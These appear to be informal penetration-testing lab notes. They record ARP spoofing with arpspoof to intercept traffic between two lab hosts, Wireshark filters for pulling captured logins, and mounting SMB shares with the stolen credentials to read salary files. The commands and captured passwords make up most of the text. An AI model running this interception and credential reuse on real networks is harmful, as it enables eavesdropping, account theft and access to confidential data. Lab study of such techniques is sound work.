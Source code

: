 
Task5: Capture traffic between 172.16.5.5  -  172.16.5.1
```
arpspoof -i tap0 -t 172.16.5.5 -r 172.16.5.1
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.5
```

now we can capture the packets
```
wireshark - tap0 > after 5 minutes save the packet

driftnet -i tap0 = to capture images between hosts //I tried it didnt work
```


Task 8: Analyze the saves packets
wireshark > menu > Statistics > Protocl Hierarchy
```
	gfreitas
	Silv@n@
	HTTP //ps; my pcap didnt have HTTP packets

	Filter String: http.request.method == "GET"
	HTTP
	SSL
	http.request.method == "POST"
	http.location == login_success.php
	smb.file


	bcaseiro:#MySecretPassword
	admin:et1@sR7!
	almir 	Corinthians2012
```


Wireshark > Export Objects > HTTP
	to get files such as images etc

Wireshark > Export Objects > SMB
	in SMB packets we discover a share in 172.16.5.10\finances
	lets mount

```
sudo apt-get install cifs-utils

mkdir /tmp/finance
sudo mount -t cifs -o user=almir,password=Corinthians2012,rw,vers=1.0 //172.16.5.10/finance /tmp/finance
ls -l /tmp/finance

$ ls -l /tmp/finance                   
total 5
drwxr-xr-x 2 root root   0 Dec 31  1969 orbit-root
drwxr-xr-x 2 root root   0 Dec 31  1969 orbit-root-1a5afa2a
drwxr-xr-x 2 root root   0 Dec 31  1969 orbit-root-c0a010
drwxr-xr-x 2 root root   0 Dec 31  1969 orbit-root-ed6dad4d
drwxr-xr-x 2 root root   0 Dec 31  1969 orbit-root-fd7dbd5d
drwxr-xr-x 2 root root   0 Dec 31  1969 orbit-root-fdbd9d0d
drwxr-xr-x 2 root root   0 Dec 31  1969 orbit-root-fe3e5e6e
-rwxr-xr-x 1 root root 662 Nov 17  2012 performance.doc
-rwxr-xr-x 1 root root 374 Nov 17  2012 salaries.doc

mkdir /tmp/tech
sudo mount -t cifs //172.16.5.10/technology /tmp/tech -o rw,vers=1.0,user=admin,password=et1@sR7! 
```
